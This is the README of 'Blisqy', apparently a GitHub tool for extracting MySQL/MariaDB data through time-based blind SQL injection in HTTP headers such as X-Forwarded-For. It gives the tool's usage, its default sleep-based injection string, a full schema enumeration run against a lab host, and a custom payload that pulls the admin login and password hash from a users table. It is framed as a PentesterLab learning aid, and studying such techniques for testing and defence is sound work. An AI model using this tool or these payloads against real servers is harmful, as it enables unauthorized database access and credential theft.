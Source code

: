 # Blisqy
A slow data siphon for MySQL/MariaDB using bitwise operation on printable ASCII characters, via a blind-SQL injection.

**PS:** Just another way to learn and understand SQL injections - how to manually hunt them down. What happens under the hood of SQLi tools.

## Usage
```bash
USAGE:
blisqy.py --server <Web Server> --port <port> --header <vulnerable header> --hvalue <header value> 
          --inject <point of injection>  --payload <custom sql payload> --dig <yes/no>

Options:
  -h, --help            show this help message and exit
  --server=WEBSERVER    Specify host (web server) IP
  --port=PORT           Specify port
  --header=VULNHEADER   Provide a vulnerable HTTP Header
  --hvalue=HEADERVALUE  Specify the value for the vulnerable header
  --inject=INJECTION    Provide where to inject Sqli payload
  --payload=PAYLOAD     Provide SQL statment/query to inject as payload
  --dig=DIGGER          Automatic Mysql-Schema enumeration (takes time!)
  --sleeptime=SLEEP     Sleep-Time for blind-SQLi query (default : 0.9)
```
## To Do :
* Intergrate an inteligent Fuzzer for hunting SQL injection vulnerabrity(ies) of HTTP Headers
* Support testing for URLs and WEB Forms fields.


## Assumptions :

At the moment, Blisqy assumes you have identified a potential Blind Sql injection vulnerability on a Webserver as demonstrated on [Pentester-Lab (From SQL Injection to Shell II)](https://pentesterlab.com/exercises/from_sqli_to_shell_II/course)

```bash
So point of injection BY DEFAULT is ---> 'or if((%s),sleep(0.9),0) and '1'='1

In other words, this argument is set.
--inject <point of injection> 
```

## Example :
**Vulnerable header is "X-Forwarded-For" and using --dig will enumerate the MySQL DB but takes time**

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --dig yes --sleeptime 0.9
[+] Getting Current Database : 
[-] photoblog


[+] Getting  number of TABLES ...
[-] 4


[+] Getting  all TABLE NAMES from Schema ...
[-] categories
[-] pictures
[-] stats
[-] users


[+] Getting  Columns and Rows from Schema ....
Preparing to get  all Columns in Table : categories .
=====================================================


[+] Getting   Number of Columns in a categories .
[-] 2
[+] Getting  all Column Names in Table : categories .
id
title
Number of Rows on Table : categories 
3
Preparing to get  all Columns in Table : pictures .
=====================================================


[+] Getting   Number of Columns in a pictures .
[-] 4
[+] Getting  all Column Names in Table : pictures .
cat
id
img
title
Number of Rows on Table : pictures 
3
Preparing to get  all Columns in Table : stats .
=====================================================


[+] Getting   Number of Columns in a stats .
[-] 2
[+] Getting  all Column Names in Table : stats .
count
ip
Number of Rows on Table : stats 
1
Preparing to get  all Columns in Table : users .
=====================================================


[+] Getting   Number of Columns in a users .
[-] 3
[+] Getting  all Column Names in Table : users .
id
login
password
Number of Rows on Table : users 
1

```
**With the above knowledge craft a niffty custom payload**
```bash
./blisqy.py --server 192.168.56.101 --port 80 --header X-Forwarded-For --hvalue "lol"  
            --payload "select concat(id,':',login,':',password) from users order by id desc limit 1"  
            --sleeptime 0.9

Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select concat(id,':',login,':',password) from users order by id desc limit 1
==================================================================

1:admin:8efe310f9ab3efeae8d410a8e0166eb2
```

**Vulnerable header is "X-Forwarded-For" and using --payload will run a custom SQL query on the MySQL DB**
```bash
./blisqy.py --server 192.168.56.101 --port 80 --header X-Forwarded-For --hvalue "lol"  
            --payload "select @@hostname" --sleeptime 0.8

Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select @@hostname
==================================================================
debian
```

## Very Imporntant
Always make sure you have fine tuned the `--sleeptime` to a value that resonates with your environment and network lantency.... Otherwise you'll be toased!

